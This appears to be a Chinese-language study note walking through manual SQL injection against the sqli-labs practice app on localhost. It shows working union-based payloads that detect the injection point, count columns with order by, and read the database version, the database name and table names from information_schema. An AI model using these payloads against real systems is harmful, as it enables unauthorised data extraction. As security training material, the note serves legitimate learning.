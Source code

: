 #### 第一步 判断注入点

```
http://localhost/sqli_labs/Less-2/?id=1 
http://localhost/sqli_labs/Less-2/?id=1 and 1=1
```

    判断有无注入点  and 1 = 1； true

**当注入点为字符型时，and 1=2 页面仍然可以执行**

**当注入点为数字型时，and 1=2 页面不能执行**

```
小技巧：判断类型时，可以使用id=2-1来查看，数字型则会返回第一个结果，相反字符型无法运算
```

**select * from ser where name = $name and 1=1**

 随便输入内容 == 报错 注入

    == 没有注入

#### 第二步 判断字段数（列数）

   猜解列名数量 order by           %20 空格
    group by    		//group by 一般注入时不会被防火墙发现

```
http://localhost/sqli_labs/Less-2/?id=1 order by 3  正确
http://localhost/sqli_labs/Less-2/?id=1 order by 4    报错
```

   猜解有几个字段      测试结果反馈3个字段

#### 第三步 判断回显点 union

**id=-1**

**因为这里****优先显示的是联合查询的第一个结果，而第二个结果未被显示**。

![1686740446661](image/1.0手工注入流程/1686740446661.png)

**所以我们只需要在这里****使联合查询的第一个结果不显示**（使前半段语句为假，则不返回任何内容）：

![1686740526745](image/1.0手工注入流程/1686740526745.png)

**我们发现  ”Your Login Name“  后显示的是第二个字段的内容**
**			“Password”         后显示的是第三个字段的内容

**说明Angelina是第二个字段的内容，I-kill-you是第三个字段的内容**

#### 第四步 信息收集

**数据库版本 version()    只有高版本才有系统库， 高版本：5.0以上          低版本：5.0以下**

* **系统库： ****infromation_schema**
* **数据库名称：database（）**
* **schemata表** (mysql服务器中所有**数据库信息**的表)
* **tables表** (mysql服务器中所有**表信息**的表)
* **columns表**（mysql服务器所有**列信息**的表）
* **table_schema 数据库名**
* **table_name 表名**
* **column_name 列名**
* . 下一级
  **infromation_schema.tables 查找表名**
  **infromation_schema.columns 查看列名**

```
http://localhost/sqli_labs/Less-2/?id=2 and 1=2 union select 1,version(),database()
//查询数据库版本和数据库名
```

![1686741066155](image/1.0手工注入流程/1686741066155.png)

```
http://localhost/sqli_labs/Less-2/?id=2 and 1=2  union select 1,table_name,3 from information_schema.tables where table_schema='security'
//显示security库中的第一张表
```

![1686741088652](image/1.0手工注入流程/1686741088652.png)

